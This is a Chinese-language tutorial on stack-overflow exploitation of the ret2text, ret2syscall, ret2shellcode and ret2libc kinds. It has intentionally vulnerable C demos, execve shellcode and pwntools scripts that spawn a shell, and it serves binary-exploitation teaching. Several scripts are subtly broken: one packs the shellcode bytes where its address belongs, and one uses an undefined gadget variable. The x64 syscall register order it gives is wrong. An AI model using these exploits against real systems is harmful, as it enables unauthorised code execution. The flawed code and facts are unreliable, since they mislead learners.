


栈攻击利用之 ret2 系列（一）

- - -

# 栈攻击利用之 ret2 系列（一）

## 前置知识：栈是什么

来自百度百科：

栈是一种数据结构，是一块动态内存区域。只允许在有序的线性数据集合的一端进行插入数据（PUSH）和删除数据（POP）的运算。允许进行插入和删除操作的一端称为栈顶，另一端为栈底；栈底固定，而栈顶浮动；栈中元素个数为零时称为空栈。它按照后进先出的原则存储数据，先进入的数据被压入栈底，最后的数据在栈顶，需要读数据的时候从栈顶开始弹出数据（最后一个数据被第一个读出来）。

我们以 x86 汇编语言为例

与栈定义有关的汇编语言指令和寄存器有：

esp：栈顶指针寄存器

ebp：栈底指针寄存器

pop 指令：出栈（将弹出栈顶的值）

push 指令：入栈（将一个值压入栈中）

### 栈的功能

栈的主要功能是在程序的运行中发挥作用，在程序的运行中，大多的函数返回地址、函数参数、系统或人为定义的临时变量等都会存储在栈中

举个栗子：

在通过 gdb 等工具调试时我们也能发现，在加载函数时，每一个函数都会有这样一段汇编代码：

```bash
push    rbp
mov     rbp, rsp
+一段 rsp 操作，一般是将 rsp 减一段值或者将一个地址赋值给 rsp（main 函数无此操作）
```

也就是将原栈底值入栈，再将原栈顶的值重新赋值给栈底，然后重新附一个值给栈顶，这样形成了一个全新的栈。

也就是说，每一个函数对应着一个自己的栈空间，其中储存了自己的参数，返回地址，临时变量等

其中，返回地址一般储存在栈底以下，参数和临时变量等存储在栈中

函数结束也有一段汇编码

```bash
leave
retn
```

等同于：

```bash
mov esp ebp
pop ebp
pop eip
```

也就是重新把栈底的值赋值给栈顶，再从栈中重新弹一个值给栈底（其实对应着上面函数开始时的汇编码），然后在原栈底下再弹一个值给 eip 寄存器（指令指针寄存器），也就是返回地址，程序继续向下执行。

## ret2 系列

通过上面的对栈的知识学习，我们不难看出栈的在程序运行的过程中起到了非常重要的作用，几乎可以决定程序的运行走向

其中，劫持返回地址是威胁最大的攻击，我们这个系列 ret2 也就是音译的 return to 讲解的就是如何劫持返回地址从而改变程序运行走向使之运行我们想要运行的函数等

### 如何劫持返回地址？

目前为止最主要的劫持返回地址的方法便是栈溢出，顾名思义，栈溢出便是由于程序向栈中输入数据时，输入数据的大小超过了栈的大小，导致不在此栈中的数据被覆盖了，例如在栈之下的返回地址，此时，若攻击者将返回地址精心构造成一些危险的函数执行，例如 system、execve 等，就会被攫取最高权限，造成信息泄露等。

另外还有一些程序可能会出现任意地址写或者数组越界等情况，但总占比较少

## 1.ret2text

### text？

意为劫持返回地址至.text 段上的代码中

`.text` 在 x86 的可执行文件中是程序代码段，这意味着这个程序可能在编写时就已经写入了一些危险函数的调用，那么，通过栈溢出，我们可以将返回地址修改为 `.text` 段的危险函数调用地址，此时程序返回后，就会执行对应的危险函数，完成攻击

攻击 payload 模版

```bash
payload = 垃圾数据（len=栈空间大小 +4/8(ebp/rbp 数据大小)，按照 32/64 位程序选择）+ 对应危险函数地址（以 4/8 字节的形式输入 (32/64 位程序)，并转化为对应大/小端序）
```

利用集成工具 pwntools 可以很便捷地用函数将数据转化成对应模式（挖个坑之后填上）

安装库后在 python 脚本开头引用 from pwn import\*即可

demo

```bash
#include<stdio.h>
#include<stdlib.h>


void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
void text()
{
    system("/bin/sh");
}

int main()
{
init();
char a[0x10];
read(0,a,0x40);
    return 0;
}
```

```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后调试或者用 ida 反编译工具查看其后门函数地址即可

例如此处在 ida 中观察到其地址为 0x4011c5

```bash
.text:00000000004011BD                               ; __unwind {
.text:00000000004011BD F3 0F 1E FA                   endbr64
.text:00000000004011C1 55                            push    rbp
.text:00000000004011C2 48 89 E5                      mov     rbp, rsp
.text:00000000004011C5 48 8D 3D 38 0E 00 00          lea     rdi, command                    ; "/bin/sh"
.text:00000000004011CC E8 9F FE FF FF                call    _system
.text:00000000004011CC
```

那么接下来用上面的 payload 构造模版即可

通过运行程序输入或者通过脚本输入即可运行后门函数中的 shell

脚本

```bash
from pwn import*

io = process('./text')
payload = b'a'*(0x10+8)+p64(0x4011c5)
io.sendline(payload)
io.interactive()
```

## 2.ret2syscall

ret2syscall 和 ret2text 的攻击方式基本相同，通过在程序中寻找系统调用函数 syscall 代码等来构造出一个后门危险函数

### syscall：系统调用

常见的系统调用汇编码和系统调用号

[系统调用号\_linux 64 位系统调用号-CSDN 博客](https://blog.csdn.net/winter2121/article/details/119845443)

```bash
int 0x80;//32 位
syscall;//64 位
```

系统调用的基本过程

系统调用过程涉及以下几个步骤：[系统调用过程](https://answer.baidu.com/answer/land?params=ttTnGaZyd4Feyh2LbMnEJHHHkBIbIQ6ui5V5RcLcWpsy9Rj5ZPs2cK3txnUftxLnSQRYt9AD9%2BR%2ByYwmcnGZ6yYLYCV7VlV1yxpoxgImiBR013eYvDD%2FPvmFCa6DflJCaFH%2BsH3FBmAXF3VLggh9zs82B7a0LCTDs2MWotlrsfqhp6GdAaVkmxaK6XQgDGLt&from=dqa&lid=9b658aae005805ec&word=%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E8%BF%87%E7%A8%8B)

1.  用户程序发出系统调用请求：用户程序通过编程语言提供的系统调用接口（如 C 语言中的库函数）发出系统调用请求，请求操作系统执行某种特定的操作。
2.  权限检查：操作系统接收到用户程序的请求后，会进行权限检查，以确保用户程序有权限执行该系统调用。
3.  切换到内核态：如果权限检查通过，操作系统会将用户程序的上下文切换到内核模式，以便执行操作系统提供的服务。
4.  参数传递和准备工作：在内核态中，操作系统会获取用户程序提供的系统调用参数，并做好相应的准备工作，例如分配内存空间
5.  执行系统调用：操作系统执行用户程序请求的系统调用功能，这可能包括打开或关闭文件、创建或终止进程、进行内存管理等各种操作。
6.  返回结果和错误处理：系统调用执行完毕后，操作系统会将执行结果返回给用户程序，并进行相应的错误处理，例如返回错误码或打印错误信息等。
7.  切换回用户态：操作系统完成系统调用操作后，将会切换回用户态，继续执行用户程序的下一条指令。

具体到 x86 下，32/64 位程序用 int 0x80/syscall系统调用指令，以eax寄存器中的值作为系统调用号，以edi、esi、edx、ecx......寄存器的顺序将其中的值作为系统调用函数参数进行系统调用

以 x64 运行 shell，即 sys\_execve("sh",0,0) 为例

```bash
.section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* execve(path='sh', argv=0, envp=0) */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        mov rdi, rsp
        mov edx, 0
        mov esi, 0
        push 59 /* 0x3b */
        pop rax
        syscall
```

前两条指令将 sh 存入一个地址中并将 sh 地址赋值给 rdi，再用两个 mov 将 edx 和 esi 赋值为 0，最后将 rax 系统调用号设置为 59syscall 触发系统调用调用 sys\_execve("sh",0,0)

demo

```bash
#include<stdio.h>
#include<stdlib.h>

char a[8] = "/bin/sh";
void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
void text1()
{
    asm("movq $59, %rax;syscall;");
}
void text2()
{
    asm("pop %rdi;ret;");
}
void text3()
{
    asm("pop %rsi;ret;");
}
void text4()
{
    asm("pop %rdx;ret;");
}
int main()
{
init();
char a[0x10];
read(0,a,0x80);
    return 0;
}
```

```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后我们用 ida 查找可执行汇编代码的地址（又称为 gadgets）以及 sh 字符串的地址，或者工具 ROPgadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221545-66f58456-b79e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221554-6c073de0-b79e-1.png)

随后在输入处构造 payload 即可

脚本：

```bash
from pwn import*

io = process('./text')
poprdi=0x4011b9
poprsi=0x4011c6
poprdx=0x4011d3
binsh=0x404038
execve=0x4011A5
payload = b'a'*(0x10+8)+p64(poprdi)+p64(binsh)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)+p64(execve)
io.sendline(payload)
io.interactive()
```

一些解释：

pop 指令是出栈，pop 后接寄存器即是将栈中的第一个 4/8 字节大小的数据从栈中放到对应寄存器中，payload 构造中可以在 pop 指令后接数据来控制对应寄存器的值

## 3.ret2shellcode

### shellcode？

shellcode 是一段用机器语言编写的恶意执行程序。在暂存器 eip 溢出后，塞入一段可让 CPU 执行的 shellcode 机器码，可以让电脑可以执行攻击者的任意指令。

shellcode 可以按照攻击者执行的位置分为本地 shellcode 和远程 shellcode.

#### 本地 shellcode

本地运行的 shellcode 经常用于利用软件漏洞提升权限。比如在 Linux 下由普通权限提升至 `root` 权限。

#### 远程 shellcode

利用软件漏洞获得特定的 shellcode，再经由 C 或 Python 编写远程攻击程序，进而取得对方电脑的 `root` 权限。

### 利用

ret2shellcode 相较于前两种攻击更具有主动性，此时程序中通常没有可以利用的后门，而程序中的某些地址具有可执行权限，那么若我们将返回地址改到这些具有可执行权限的地点并且能向该处写入 shellcode 那么就能执行我们想要的 shellcode 功能

当然，编写机器码十分困难，但在各大语言中都装载了汇编语言的编译功能，可以通过编译编写汇编语言转化为机器码以使用

在 pwntools 中也集成了 shellcode 汇编生成函数 shellcraft

demo

```bash
#include<stdio.h>
#include<stdlib.h>

char a[0x100];
void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}

int main()
{
init();
mprotect(a,0x100,7);
char b[0x10];
read(0,a,0x100);
read(0,b,0x40);
    return 0;
}
```

```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

利用 pwntools 生成一段 shellcode 写入被赋予了 rwx 权限的 a 出，再栈溢出时覆盖返回地址为 a 的地址即可执行对应 shellcode

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221602-70e6c600-b79e-1.png)

脚本：

```bash
from pwn import*

io = process('./text')
shellcode_adr=0x404080
shellcode=asm(shellcraft.sh())
payload = b'a'*(0x10+8)+p64(shellcode)
io.sendline(shellcode)
io.sendline(payload)
io.interactive()
```

## 4.ret2libc

### libc？

libc.so 是 Linux 系统中的 C 标准库动态链接库（shared library）。它包含了 C 语言程序常用的函数和符号，可以在程序运行时动态加载到内存中，并被程序调用。

在动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应程序中调用了的函数。所以 ret2libc 的含义便是返回调用 libc 库中的函数

### 调用？

当这个程序中没有调用我们想要劫持调用函数怎么办？那么我们就需要想方法获得函数在 libc 动态链接库中的真实地址了

引入概念：程序 GOT 表

GOT 表（Global Offset Table）是一种数据结构，用于存储程序中使用的全局变量或者函数的地址。在程序运行时，当程序需要访问一个全局变量或者调用一个全局函数时，它会先在 GOT 表中查找相应的地址，然后使用这个地址进行访问或者调用。

GOT 表通常用于实现动态链接（dynamic linking），在动态链接的情况下，程序在运行时会动态加载共享库（shared library），而这些共享库中的全局变量和函数的地址是未知的。因此，程序需要通过 GOT 表来获取这些全局变量和函数的地址，以便正确地访问或者调用它们。

同时还有一点：函数在 libc 动态链接库中的相对地址是固定的，也就是说，如果我们能够将一个函数的 got 表对应的地址打印出来，我们就能根据各个函数的相对地址来找到所有 libc 库函数的地址

那么我们的思路就是这样

泄露某个程序中调用的函数的真实地址—libc 版本—>获得 libc 基地址——>获得所有函数地址

### 泄露？

当程序中有输出函数时，我们就可以通过在返回地址构造输出函数以及控制函数参数的方式是函数打印 got 表内容然后再末尾接上主函数或者发生栈溢出的函数地址再次构造一次栈溢出，此时我们不仅打印出了函数的真实地址，通过 libc 版本获得 libc 基地址和所有函数地址，而且还能再执行一次栈溢出，此时我们就能通过控制参数构造危险后门函数来获得权限了

demo

```bash
#include<stdio.h>
#include<stdlib.h>

void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
int main()
{
init();
puts("ret2libc");
char b[0x10];
read(0,b,0x40);
    return 0;
}
```

```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

利用 ida 反编译工具找到 puts 函数地址、main 函数地址以及 puts 函数的 got 地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221612-76e15c28-b79e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221615-78b6f512-b79e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221619-7af0987e-b79e-1.png)

ROPgadget 找参数控制 gadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221626-7f22dc5e-b79e-1.png)

脚本：

```bash
from pwn import*

io = process('./text')
libc=ELF('./libc.so.6')
puts_adr=0x401060
puts_got=0x404018
poprdi=0x401273
ret=0x40101a
main=0x4011BD
payload1 = b'a'*(0x10+8)+p64(rdi)+p64(puts_got)+p64(puts_adr)+p64(main)
io.sendline(payload1)
puts_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
payload2 = b'a'*(0x10+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload2)
io.interactive()
```

脚本解析：

通过 pwntools 中的 ELF 模块解析 libc 文件，结合 recv 模块接收泄露出的 puts 函数真实地址得到 libc 基地址，从而能在 libc 中找出 system 函数和 binsh 字符串的真实地址，再通过劫持返回地址以及参数即可执行 system("/bin/sh")

## 总结

ret2 系列之一讲解了 ret2 系列中的 4 个基础的劫持方法，虽然他们方法简单，但是危害是十分巨大的，希望对初入二进制漏洞利用学习的师傅们有帮助
